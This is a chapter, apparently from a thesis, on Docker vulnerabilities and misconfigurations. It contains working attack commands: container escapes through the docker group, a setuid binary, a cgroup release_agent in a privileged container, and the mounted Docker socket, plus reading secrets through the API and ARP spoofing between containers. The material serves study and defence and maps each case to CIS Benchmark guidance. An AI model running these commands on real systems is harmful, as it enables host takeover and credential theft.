\chapter{Known Vulnerabilities \& Misconfigurations in Docker}\label{chapter:vulnerabilities-misconfigurations}
\todo[inline]{Rename vulnerabilities to software bugs}
\todo[inline]{Make distinction between root in container and root on host everywhere}
In this chapter we will look at Docker from a vulnerability analysis perspective. First we will look conceptually at Docker and security by examining the attack surface of Docker on an host and the various attacker models that come with it. Then we look at the practical countermeasures in place to prevent security problems and reduce impact of existing ones. We then look at some interesting, practical examples of security problems of Docker. These are split into vulnerabilities and misconfigurations.

\hfill

Vulnerabilities and misconfigurations are both security problems, but they differ in who made the mistake. A \emph{vulnerability} is a problem in a program itself. For example, a buffer overflow is a clear vulnerability. The problem lies solely in the program itself. To fix it, the code of the program needs to be changed. \emph{Misconfigurations}, on the other hand, are security problems that come from wrong usage of a program. The program is incorrectly configured and that creates a situation that might be exploitable to an attacker. For example, a world-readable file containing passwords is a misconfiguration. To fix a misconfiguration, the user should change the configuration of the problem. The developers of the program can only recommend users to configure it correctly (and have documentation on how to do it).

\hfill

In the \autoref{chapter:pentesting}, we will look at how these vulnerabilities and misconfigurations can be used during a penetration test.

\subsection*{Impact of Docker on Existing Vulnerabilities}
A Docker container isolates software from the host, but does not change it. This means that vulnerabilities in software are not affected by Dockerizing that software. However, the impact of those vulnerabilities is decreased, because the vulnerability exists in an isolated environment.

If, for example, there exists a RCE (remote code execution) vulnerability in Wordpress. Running Wordpress in a Docker container does not fix the vulnerability. An attacker is still able to exploit it. But that attacker is not able to access the host system, because the exploited software is isolated from the host system because of Docker.


\section{Attack Surface \& Models}
Because Docker is more of an ecosystem than a single running process, it has quite a large attack surface. This attack surface consists of multiple attacker models.

\hfill

Lets take a look at the following scenarios and images showing the attacker models.
We see the following processes pictured in the images.
\begin{enumerate}
    \item[A)] Standard (privileged) process running directly on the host.
    \item[B)] Standard unprivileged process running directly on the host.
    \item[C)] Process running in a Docker container.
    \item[D)] Similar to C.
\end{enumerate}

\subsection{Container Escape}
One of the most common type of vulnerability (and sometimes misconfiguration) is the possibility for a process running in a container to escape the container and access data (i.e.\ execute commands) on the host.
\begin{figure}[ht]
    \centering
    
\begin{tikzpicture}[x=0.75pt,y=0.75pt,yscale=-1,xscale=1]
        % Host Rectangle
        \draw (0,100) -- (400,100) -- (400,130) -- (0,130) -- cycle ;
        \draw (200, 115) node {Host};

        %Docker Daemon Rectangle
        \draw (200,75) -- (400,75) -- (400,95) -- (200,95) -- cycle ;
        \draw (300,85) node {Docker Daemon};

        % Process A Rectangle
        \draw (0,40) -- (85,40) -- (85,70) -- (0,70) -- cycle ;
        \draw (42.5,55) node {Process A};

        % Process B Rectangle
        \draw (105,40) -- (190,40) -- (190,70) -- (105,70) -- cycle ;
        \draw (147.5,50) node {Process B};
        \draw (147.5,62.5) node {{\footnotesize (unprivileged)}};

        %Container Process C Rectangle
        \draw (200,0) -- (295,0) -- (295,70) -- (200,70) -- cycle ;
        \draw (247.5,10) node {Container};

        %% Process C Rectangle
        \draw (205,20) -- (290,20) -- (290,50) -- (205,50) -- cycle ;
        \draw (247.5,35) node {Process C};

        %Container Process D Rectangle
        \draw (305,0) -- (400,0) -- (400,70) -- (305,70) -- cycle ;
        \draw (352.5,10) node {Container};

        %% Process D Rectangle
        \draw (310,20) -- (395,20) -- (395,50) -- (310,50) -- cycle ;
        \draw (352.5,35) node {Process D};

        % Line
        \draw [latex-] (190,55) -- (205,35) ;
    \end{tikzpicture}
    \caption{}\label{fig:container-escape}
    \medskip
    \small
    A process (Process C) running inside a container accessing data on the host (that it should not be able to access), in this case Process B.
\end{figure}

\hfill

An example attack scenario would be a company that offers a PaaS (Platform as a Service) products that allows customers to run dockers on their infrastructure\footnote{This is actually quite common nowadays. All major computing providers offer such a service.}. If it is possible for the attacker to submit a Docker image that escapes the container and access the underlying infrastructure, they could access other containers or even other internal resources. That would, obviously, be a very big problem for that company.

\hfill

A lot of the known container escapes are possible because the container can access some files on the host. For example, if Docker mounts some necessary directories in \lstinline{/proc} by default (which would be a vulnerability) or if sensitive data is mounted as a volume (which would be a misconfiguration).

\hfill

As noted before, because a container uses the same kernel and resources as the host, an exploit granting root can be just as devastating run inside as outside of the docker, because the target kernel and resources are the same. CVE--2016--5195(Dirty Cow)\footnote{\url{https://dirtycow.ninja/}} is a good example of an exploit that allows container escapes\cite{Dirty-Cow-Escape}.

It should also be noted that an exploit that allows someone to escape from a Linux \lstinline{namespace} is essentially a container escape exploit. CVE--2017--7308\cite{CVE-2017-7308} is a good example of this.

\section{Docker Daemon Attacks}\label{attacker-model:daemon-attacks}
In a Docker daemon attack, an attacker has access to a host with Docker installed on it. The attacker might be able access sensitive and privileged information by interacting with the Docker daemon or by reading Docker configuration files. Unlike container escapes, the attacker does not attack Docker or the isolation that Docker creates directly, but uses Docker to perform malicious actions.

\medskip

This is attack is shown in \autoref{fig:docker-daemon-attack}.

\begin{figure}[ht]
    \centering
    
\begin{tikzpicture}[x=0.75pt,y=0.75pt,yscale=-1,xscale=1]
        % Host Rectangle
        \draw (0,100) -- (400,100) -- (400,130) -- (0,130) -- cycle ;
        \draw (200, 115) node {Host};

        %Docker Daemon Rectangle
        \draw (200,75) -- (400,75) -- (400,95) -- (200,95) -- cycle ;
        \draw (300,85) node {Docker Daemon};

        % Process A Rectangle
        \draw (0,40) -- (85,40) -- (85,70) -- (0,70) -- cycle ;
        \draw (42.5,55) node {Process A};

        % Process B Rectangle
        \draw (105,40) -- (190,40) -- (190,70) -- (105,70) -- cycle ;
        \draw (147.5,50) node {Process B};
        \draw (147.5,62.5) node {{\footnotesize (unprivileged)}};

        %Container Process C Rectangle
        \draw (200,0) -- (295,0) -- (295,70) -- (200,70) -- cycle ;
        \draw (247.5,10) node {Container};

        %% Process C Rectangle
        \draw (205,20) -- (290,20) -- (290,50) -- (205,50) -- cycle ;
        \draw (247.5,35) node {Process C};

        %Container Process D Rectangle
        \draw (305,0) -- (400,0) -- (400,70) -- (305,70) -- cycle ;
        \draw (352.5,10) node {Container};

        %% Process D Rectangle
        \draw (310,20) -- (395,20) -- (395,50) -- (310,50) -- cycle ;
        \draw (352.5,35) node {Process D};

        % Line
        \draw [-latex, very thick] (147.5,70) -- (200,85) -- (42.5,70);
    \end{tikzpicture}
    \caption{}\label{fig:docker-daemon-attack}
    \medskip
    \small
    An unprivileged process B accessing privileged data (in the image process A) using the Docker daemon.
\end{figure}

Because Docker needs a lot of kernel features to function properly, the Docker daemon needs to run as \lstinline{root}. This makes it a very interesting target, because vulnerabilities that allow an attacker to maliciously control the Docker daemon, allow the attacker to perform actions as \lstinline{root}.

\subsection{Container to Container Attack}
Containers should not only be isolated from the host, but also from other containers. This allows multiple containers with sensitive data to be run on the same host without them being to access each other's data. In Docker this is not always the case.

\begin{figure}[ht]
    \centering
    
\begin{tikzpicture}[x=0.75pt,y=0.75pt,yscale=-1,xscale=1]
        % Host Rectangle
        \draw (0,100) -- (400,100) -- (400,130) -- (0,130) -- cycle ;
        \draw (200, 115) node {Host};

        %Docker Daemon Rectangle
        \draw (200,75) -- (400,75) -- (400,95) -- (200,95) -- cycle ;
        \draw (300,85) node {Docker Daemon};

        % Process A Rectangle
        \draw (0,40) -- (85,40) -- (85,70) -- (0,70) -- cycle ;
        \draw (42.5,55) node {Process A};

        % Process B Rectangle
        \draw (105,40) -- (190,40) -- (190,70) -- (105,70) -- cycle ;
        \draw (147.5,50) node {Process B};
        \draw (147.5,62.5) node {{\footnotesize (unprivileged)}};

        %Container Process C Rectangle
        \draw (200,0) -- (295,0) -- (295,70) -- (200,70) -- cycle ;
        \draw (247.5,10) node {Container};

        %% Process C Rectangle
        \draw (205,20) -- (290,20) -- (290,50) -- (205,50) -- cycle ;
        \draw (247.5,35) node {Process C};

        %Container Process D Rectangle
        \draw (305,0) -- (400,0) -- (400,70) -- (305,70) -- cycle ;
        \draw (352.5,10) node {Container};

        %% Process D Rectangle
        \draw (310,20) -- (395,20) -- (395,50) -- (310,50) -- cycle ;
        \draw (352.5,35) node {Process D};

        % Line
        \draw [-latex] (290,35) -- (310,35) ;
    \end{tikzpicture}
    \caption{}\label{fig:container-to-container-attack}
    \medskip
    \small
    A process (Process C) running inside a container, accessing data in another container (process D).
\end{figure}

By default all Docker containers are added to the same bridge network. This means that (by default) all Docker containers can reach each other over the network. This differs from the isolation Docker uses for other namespaces. In the other namespaces, Docker (by default) isolates containers from the host and other containers. This design decision can lead to very dangerous situations, because developers may believe that Docker containers are completely isolated from each other (including the network).


\subsection{Deployment \& Development Pipelines}
One of the biggest usages of Docker is automating part of the deployment and development process. Many developers use Continuous Integration and Deployment systems to automatically build Docker images that they then automatically pull and run on their production environments. This level of automation allows for very rapid software development.

That automation does have a negative side. It removes scrutiny from the deployment pipeline. If an attacker is able to compromise a link in the chain, they will be able to create their own malicious images that will be automatically run. Without proper monitoring of the full pipeline, such an attack can go unnoticed, because the system is designed to not need any human interaction.

\subsection{Impact of Docker on Existing Vulnerabilities}
A Docker container isolates software from the host, but does not change it. This means that vulnerabilities in software are not affected by Dockerizing that software. However, the impact of those vulnerabilities is decreased, because the vulnerability exists in an isolated environment.

If, for example, there exists a RCE (remote code execution) vulnerability in Wordpress. Running Wordpress in a Docker container does not fix the vulnerability. An attacker is still able to exploit it. But that attacker is not able to access the host system, because the exploited software is isolated from the host system because of Docker.

\section{Protection Mechanisms}

To significantly reduce that risk that (future) vulnerabilities and misconfigurations pose to a system with Docker, there are multiple protections built into Docker and the Linux kernel itself. In this section, we will look at the most well-known and important protections.

\hfill

It should be noted that because these protections add complexity and features, some vulnerabilities focus solely on bypassing one or more protections. A good example of this is CVE--2019--5021 (see \autoref{CVE-2019-5021}).

\subsection{Capabilities}\label{capabilities}
To allow or disallow a process to use specific privileged functionality, the Linux kernel has capabilities\footnote{See the \lstinline{man page} of \lstinline{capbilities}}. A capability is a granular way of giving certain privileges to processes. A capability allows a process to perform privileged action without giving the process full \lstinline{root} rights. For example, if we want a process to be able to create its own packets but not read sensitive files we give it the \lstinline{CAP_NET_RAW} capability.

\hfill

By default every Docker container is started with minimum capabilities. The default capabilities can be found in the Docker code\footnote{\url{https://github.com/moby/moby/blob/master/oci/caps/defaults.go}}. It is possible to add or remove capabilities at runtime using the \lstinline{--cap-add} and \lstinline{--cap-drop}\cite{More-Secure-Non-Root-Container} arguments.

\subsection{Secure Computing Mode}
Secure Computing Mode (seccomp for short), like capabilities, is a built-in way to limit the privileged functionality that a process is allowed to use. Where capabilities limit functionality (like reading privileged files), Secure Computing Mode limits specific \lstinline{syscalls}. This allows for very granular security control. It does this by using whitelists of \lstinline{syscalls} (called profiles).
To setup a strict, but still functional seccomp profile requires very specific knowledge of which \lstinline{syscalls} are used by a program. This makes it quite complex to setup

\hfill

The default seccomp profile that processes in Docker containers get is available in the source code\footnote{\url{https://github.com/moby/moby/blob/master/profiles/seccomp/default.json}}. To pass a custom seccomp profile the \lstinline{--security-opt seccomp} can be used.


\subsection{AppArmor}
AppArmor (which stands for Application Armor) is a Linux kernel module that allows application-specific limitations of files and system resources.

\hfill

Docker adds a default AppArmor profile to every container. This is profile generated at runtime based on a template\footnote{\url{https://github.com/moby/moby/blob/master/profiles/apparmor/template.go}}.

\hfill

\lstinline{bane}\footnote{\url{https://github.com/genuinetools/bane}} is a program that generates AppArmor profiles for containers.

\subsection{SELinux}
SELinux (which stands for Security-Enhanced Linux) is a set of changes to the Linux kernel that support system-wide access control for files and system resources. It is available by default on some Linux distributions.

\hfill

Docker does not enable SELinux support by default, but it does provide a SELinux policy\footnote{\url{https://www.mankier.com/8/docker_selinux}}.

\subsection{Non-root user in containers}
By default processes in Docker containers are executed as \lstinline{root} (the \lstinline{root} user of that \lstinline{namespace}), because the process is isolated from the host system. However, as we will see there exist many ways to escape containers. Most of those ways require \lstinline{root} privileges. That is why it is recommended to run processes in containers using non-root. If the container gets compromised in any way, the attacker cannot escape because the user is non-root.

\section{Misconfigurations}\label{misconfigurations}
In this section, we will take a look at misconfigurations of Docker and the impact those misconfigurations have. For each misconfiguration, we will look at a practical example. We will also look at which guidelines from the Docker CIS Benchmark cover these misconfigurations.

\subsection{Docker Permissions}
A very common (and most notorious) misconfiguration is giving unprivileged users access to Docker. This is very dangerous because this allows the unprivileged users to access all files as \lstinline{root}. The Docker documentation says\footnote{\url{https://docs.docker.com/engine/security/security/}}:
\begin{quote}
First of all, only trusted users should be allowed to control your Docker daemon. This is a direct consequence of some powerful Docker features. Specifically, Docker allows you to share a directory between the Docker host and a guest container; and it allows you to do so without limiting the access rights of the container. This means that you can start a container where the /host directory is the / directory on your host; and the container can alter your host filesystem without any restriction.
\end{quote}

In short, because the Docker Daemon runs as root, if an user adds a directory as a volume to a container, that file is accessed as root. There are two common ways for unprivileged users to access Docker. They are either part of the \lstinline{docker} group or the \lstinline{docker} binary has the \lstinline{setuid} bit set.

\subsubsection{\texorpdfstring{\lstinline{docker}}{docker} group}
Every user in the \lstinline{docker} group is allowed to use Docker. This allows simple access management of Docker usage. Sometimes the system administrator of a network does not want to do proper access management and adds every user to the \lstinline{docker} group, because that allows everything to run smoothly. This misconfiguration, however allows every user to access every file on the system.

\hfill

Lets say we want the password hash of user \lstinline{admin} on a system where we do not have \lstinline{sudo} privileges, but we are a member of the \lstinline{docker} group.

\begin{lstlisting}[caption={Docker \lstinline{group} exploit example},captionpos=b]
(host)$ sudo -v
Sorry, user unpriv may not run sudo on host.
(host)$ groups | grep -o docker
docker
(host)$ docker run -it --rm --volume=/:/host ubuntu:latest bash
(cont)# grep admin /host/etc/shadow
admin:$6$VOSV5AVQ$jHWxAVAUgl...:18142:0:99999:7:::
\end{lstlisting}

We start by checking our permissions. We do not have \lstinline{permissions}, but we are a member of the \lstinline{docker} group. This allows us to create a container with \lstinline{/} mounted as volume and access any file as root. This includes the file storing password hashes \lstinline{/etc/passwd}.

\hfill

This is covered by the CIS Benchmark guideline 1.2.2 (Ensure only trusted users are allowed to control Docker daemon).

\subsubsection{\texorpdfstring{\lstinline{setuid}}{setuid} bit}
Another way system administrators might skip proper access management is to set the \lstinline{setuid} bit on the \lstinline{docker} binary.

\hfill

The \lstinline{setuid} bit is a permission bit in Unix, that allows users to run binaries as the owner (or group) of the binary instead of themselves.
This is very useful in specific cases. For example, users should be able to change their own passwords, but should not be able to read password hashes of other users. That is why the \lstinline{passwd} binary has the \lstinline{setuid} bit set. A user can change their password, because \lstinline{passwd} is run as \lstinline{root} (the owner of \lstinline{passwd}) and, of course, \lstinline{root} is able to read and write the password file. In this case the protection and security comes from the fact that \lstinline{passwd} asks for the user's password itself and only writes to specific entries in the password file.

\hfill

If a system is misconfigured by having the \lstinline{setuid} bit set for the \lstinline{docker} binary, an user will be able to execute Docker as \lstinline{root} (the owner of \lstinline{docker}). Just like before, we can easily recreate this attack.

\begin{lstlisting}[caption={Docker \lstinline{setuid} exploit example},captionpos=b]
(host)$ sudo -v
Sorry, user unpriv may not run sudo on host.
(host)$ groups | grep -o docker
(host)$ ls -halt /usr/bin/docker
-rwsr-xr-x 1 root root 85M okt 18 17:52 /usr/bin/docker
(host)$ docker run -it --rm --volume=/:/host ubuntu:latest bash
(cont)# grep admin /host/etc/shadow
admin:$6$VOSV5AVQ$jHWxAVAUgl...:18142:0:99999:7:::
\end{lstlisting}

We now see that we are not a part of the \lstinline{docker} group, but we can still run \lstinline{docker} because the \lstinline{setuid} bit (and the execute bit for all users) is set.

\hfill

This is not covered by the CIS Benchmark guidelines. There are multiple guidelines about correct file and directory permissions, but none cover the binaries.

\subsection{\texorpdfstring{\lstinline{--privileged}}{--privileged} Flag}\label{subsection:privileged}

Docker has a special privileged mode\cite{Docker-in-Docker-blog}. This mode is enabled if a container is created with the \lstinline{--privileged} flag and it enables access to all host devices and kernel capabilities. This is a very powerful mode and enables some very useful features (e.g.\ building Docker images inside a Docker container). But it is also very dangerous as those kernel features allow an attacker inside the container to escape and access the host.

\medskip

A simple example of this, is using a feature in \lstinline{cgroups}\cite{CGroup-Docs}. If a \lstinline{cgroup} does not contain any processes anymore, it is released. It is possible to specify a command (called a \lstinline{release_agent}) that is run in when a \lstinline{cgroup} is released. It is possible to define such a \lstinline{release_agent} in a privileged docker. If the \lstinline{cgroup} is released, the command is run on the host\cite{TrailOfBits-Docker-Escape}.

\medskip

We can look at a proof of concept of this attack developed by security researcher Felix Wilhelm\cite{Felix-Wilhem-Tweet}.
\begin{lstlisting}[caption={Privileged container escape using \lstinline{cgroups}.},captionpos=b,label={listing:privileged-escape}]
(host)$ docker run -it --rm --privileged ubuntu:latest bash
(cont)# d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
(cont)# mkdir -p $d/w;echo 1 >$d/w/notify_on_release
(cont)# t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
(cont)# touch /o; echo $t/c >$d/release_agent;printf '#!/bin/sh\nps >'"$t/o" >/c;
(cont)# chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
\end{lstlisting}

The proof of concept in \autoref{listing:privileged-escape} first creates a new \lstinline{cgroup}, defines a \lstinline{release_agent} and releases the \lstinline{cgroup}. In this case the \lstinline{release_agent} runs the \lstinline{ps} command on the host and writes the output to \lstinline{/o} in the container.

\medskip

The \lstinline{--privileged} flag is covered by two CIS Benchmark guidelines. Guideline 5.4 (Ensure that privileged containers are not used) recommends to not create containers with privileged mode. 5.22 (Ensure that docker exec commands are not used with the privileged option) recommends to not execute commands in running containers (with \lstinline{docker exec}) in privileged mode.

\subsubsection{Checking Capabilities}
Once we have a clear picture what kind of system we are working with, we can do some more detailed reconnaissance. One of the most important things to look at are the kernel capabilities (see \autoref{protection-mechanisms:subsection:capabilities}) of the container. We can do this by looking at \lstinline{/proc/self/status}\footnote{\lstinline{/proc/self/} refers to \lstinline{/proc} of the current process}. This file contains multiple lines that contain information about the granted capabilities.

\begin{lstlisting}[caption={Capabilities of process in container},captionpos=b]
(cont)# grep Cap /proc/self/status
CapInh:	00000000a80425fb
CapPrm:	00000000a80425fb
CapEff:	00000000a80425fb
CapBnd:	00000000a80425fb
CapAmb:	0000000000000000
\end{lstlisting}

We see five different values:
\begin{itemize}
    \item \lstinline{CapInh}: The inheritable capabilities are the capabilities that a child process is allowed to get.
    \item \lstinline{CapPrm}: The permitted capabilities are the maximum capabilities that a process can use.
    \item \lstinline{CapEff}: The currently effective capabilities.
    \item \lstinline{CapBnd}: The capabilities that are permitted in the call tree.
    \item \lstinline{CapAmb}: Capabilities that non-root child processes can inherit.
\end{itemize}

We are interested in the \lstinline{CapEff} value, because that value represents the current capabilities. The capabilities are represented as a hexadecimal value. Every capability has a value and the \lstinline{CapEff} value is the combination of the values of granted capabilities. We can use the \lstinline{capsh} tool to get a list of capabilities from a hexadecimal value (this can be on a different system).

\begin{lstlisting}[caption={\lstinline{capsh} shows capabilities},captionpos=b]
(host)$ capsh --decode=00000000a80425fb
0x00000000a80425fb=cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
\end{lstlisting}

We can use this to check if there are any capabilities that can be used to escape the Docker container (see \autoref{misconfigurations:subsection:capabilities}).

\subsubsection{Checking for Privileged Mode}

As stated before, if the container runs in privileged mode it gets all capabilities. This makes it easy to check if we are running a process in a container in privileged mode. \lstinline{0000003fffffffff} is the representation of all capabilities.

\begin{lstlisting}[caption={\lstinline{capsh} shows privileged capabilities},captionpos=b]
(host)$ docker run -it --rm --privileged ubuntu:latest grep CapEff /proc/1/status
CapEff:	0000003fffffffff
(host)$ capsh --decode=0000003fffffffff 
0x0000003fffffffff=cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read
\end{lstlisting}

If we find a privileged container, we can easily escape it (as shown in \autoref{subsection:privileged}).

\subsection{Docker Engine API}
The Docker Daemon runs a RESTful\footnote{\url{https://restfulapi.net/}} API\footnote{\url{https://docs.docker.com/engine/api/v1.40/}} that is used to communicate with the Docker Daemon. For example, when an user executes a Docker client command, it actually makes a request to the API. By default the API listens on a UNIX socket accessible through \lstinline{/var/run/docker.sock}, but it also possible to make it listen on a port. This makes it possible for anybody in the \lstinline{docker} group (and \lstinline{root}) to make HTTP requests. For example the following commands (to see all containers) produce the same output (albeit in a different format). The first one is a command using the Docker client and the second is a HTTP request (using \lstinline{curl}\footnote{\url{https://curl.haxx.se/}}).
\begin{lstlisting}[caption={Docker client and Socket},captionpos=b]
(host)$ docker ps -a
...
(host)$ curl --unix-socket /var/run/docker.sock -H 'Content-Type: application/json' "http://localhost/containers/json?all=1"
...
\end{lstlisting}

\hfill

In some cases, it might be possible to access the API when it is not possible to access the Docker client, but because API access gives the same exact possibilities as having access to the Docker client, this is very dangerous\cite{The-Dangers-Of-Docker-Sock}.
However, giving containers access to the API (by adding the socket as a volume) is a common practice, because it allows containers to monitor and analyse other containers.

\subsubsection{Container Escapes}
If the \lstinline{/var/run/docker.sock} is added as a volume to a container, the container has access to the API. This means the process in the container has full access to Docker on the host. This can be used to escape, because the container can create another container with arbitrary volumes and commands. It is even possible to create an interactive shell in another container\cite{Escape-Socket-Shell}.

\hfill

Lets say we want to get the password hash of an user called \lstinline{admin} on the host. We are in a container that has access to \lstinline{/var/run/docker.sock}. We use the API to start another Docker container on the host, that has access to the password hash (located in \lstinline{/etc/shadow}). We read the password file, by looking at the logs of the container that we just started.

\begin{lstlisting}
(host)$ docker run -it --rm -v /var/run/docker.sock:/var/run/docker.sock ubuntu /bin/bash
(cont)# curl -XPOST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock -d '{"Image":"ubuntu:latest","Cmd":["cat", "/host/etc/shadow"],"Mounts":[{"Type":"bind","Source":"/","Target":"/host"}]}' "http://localhost/containers/create?name=escape"
...
(cont)# curl -XPOST --unix-socket /var/run/docker.sock "http://localhost/containers/escape/start"
(cont)# curl --output - --unix-socket /var/run/docker.sock "http://localhost/containers/escape/logs?stdout=true"
...
admin:$6$VOSV5AVQ$jHWxAVAUgl...:18142:0:99999:7:::
...
(cont)# curl -XDELETE --unix-socket /var/run/docker.sock "http://localhost/containers/escape"
\end{lstlisting}

\subsubsection{Finding Sensitive information}

When a container has access to \lstinline{/var/run/docker.sock} (i.e. \lstinline{/var/run/docker.sock} is added as volume inside the container), it cannot only start new containers but it can also look at the configuration of existing containers. This configuration might contain sensitive information (e.g. passwords in the environment variables).

\hfill

Lets start a Postgres\footnote{\url{https://www.postgresql.org/}} database inside a Docker. From the documentation of the Postgres Docker image\footnote{\url{https://hub.docker.com/_/postgres}}, we know that we can provide a password using the \lstinline{POSTGRES_PASSWORD} environment variable. If we have access to another container which has access to the Docker API, we can read that password from the environment variable.

\begin{lstlisting}[caption={Example extract secrets using the Docker API},captionpos=b]
(host)$ docker run --name database -e POSTGRES_PASSWORD=thisshouldbesecret -d postgres
...
(host)$ docker run -it --rm -v /var/run/docker.sock:/var/run/docker.sock:ro ubuntu:latest bash
(cont)# apt update
...
(cont)# apt install curl jq
...
(cont)# curl --unix-socket /var/run/docker.sock -H 'Content-Type: application/json' "http://localhost/containers/database/json" | jq -r '.Config.Env'
[
  "POSTGRES_PASSWORD=thisshouldbesecret",
  ...
]
\end{lstlisting}

\subsubsection{Remote Access}
It is also possible to make the API listen on a TCP port. Ports 2375 and 2376 are usually used for HTTP and HTTPS communication, respectively. This, however, does bring all the extra complexity of TCP sockets with it. If not configured to only listen on \lstinline{localhost}, this gives every host on the network access to Docker (which might be desirable behavior). If the host is directly accessible by the internet, it gives everybody access to the full capabilities of Docker on the host. An attacker can exploit this by starting malicious containers\cite{Metasploit-Unprotected-TCP-Socket}.

\hfill

A malicious actor misused this feature in May 2019. He used Shodan\footnote{A search engine to search for systems connected to the internet.}\footnote{\url{https://www.shodan.io/}} to find unprotected publicly accessible Docker APIs and start containers that mine Monero\footnote{A cryptocurrency that focuses on privacy.} and find other hosts to infect\cite{zoolu2-bot-1807}\cite{zoolu2-bot-1809}\cite{zoolu2-bot-1853}.

\subsection{Readable Configuration Files}
Because setting up environments with Docker can be quite complex, many Docker users use programs to save all necessary Docker settings to configuration files (e.g. \lstinline{docker-compose}) to remove the need of repeating complex steps and configuration. These configuration files often contain very sensitive information. If the permissions on these files are configured badly, users that should not be able to read the files, might be able to read the files.

Too very common files that contain sensitive information are \lstinline{.docker/config.json} and \lstinline{docker-compose.yaml} files.

\subsubsection{\texorpdfstring{\lstinline{.docker/config.json}}{.docker/config.json}}
When pushing images to a registry, users need to login to the registry to authenticate themselves.
It would be quite annoying to login every time an user wants to push and image. That is why \lstinline{.docker/config.json} caches those credentials. These are stored in base64 encoding in the home directory of the user by default\footnote{\url{https://docs.docker.com/engine/reference/commandline/login/}}. An attacker with access to the file, can push malicious Docker images\cite{Docker-Credentials-Metasploit}.

\subsubsection{\texorpdfstring{\lstinline{docker-compose.yaml}}{docker-compose.yaml}}
\lstinline{docker-compose.yaml} files often contain secrets (e.g.\ passwords and API keys), because all information that should be passed to a container is saved in the \lstinline{docker-compose.yaml} file.

\subsection{ARP Spoofing}
By default all Docker containers are added to the same bridge network. This means they are able to reach each other. By default Docker containers also receive the \lstinline{CAP_NET_RAW} capability, which allows them to create raw packets. This means that by default, containers are able to ARP spoof other containers\cite{Abusing-Containers}.

\hfill

Lets take a look at how this in a practical example. Lets say we have three containers. One container will ping another container. A third malicious container wants to intercept the \lstinline{ICMP} packets.

We start three Docker containers using the \lstinline{ubuntu:latest} image (which is the same as \lstinline{ubunut:bionic-20191029} at the time of writing). They have the following names IPv4 addresses and MAC addresses:
\begin{itemize}
    \item \lstinline{victim0}: \lstinline{172.17.0.2} and \lstinline{02:42:ac:11:00:02}
    \item \lstinline{victim1}: \lstinline{172.17.0.3} and \lstinline{02:42:ac:11:00:03}
    \item \lstinline{attacker}: \lstinline{172.17.0.4} and \lstinline{02:42:ac:11:00:04}
\end{itemize}

We use \lstinline{vic0}, \lstinline{vic1} and \lstinline{atck} instead of \lstinline{cont} to indicate in which container a command is executed.

\begin{lstlisting}[caption={Docker container ARP spoof},captionpos=b]
(host)$ docker run --rm -it --name=victim0 --hostname=victim0 ubuntu:latest /bin/bash
(vic0)# apt update
...
(vic0)# apt install net-tools iproute2 iputils-ping
...
(host)$ docker run --rm -it --name=victim1 --hostname=victim1 ubuntu:latest /bin/bash
(host)$ docker run --rm -it --name=attacker --hostname=attacker ubuntu:latest /bin/bash
(atck)# apt update
...
(atck)# apt install dsniff net-tools iproute2 tcpdump
...
(atck)# arpspoof -i eth0 -t 172.17.0.2 172.17.0.3
...
(vic0)# arp
arp
172.17.0.3 ether 02:42:ac:11:00:04 C eth0
...
172.17.0.4 ether 02:42:ac:11:00:04 C eth0
(vic0)# ping 172.17.0.3
...
(atck)# tcpdump -vni eth0 icmp
...
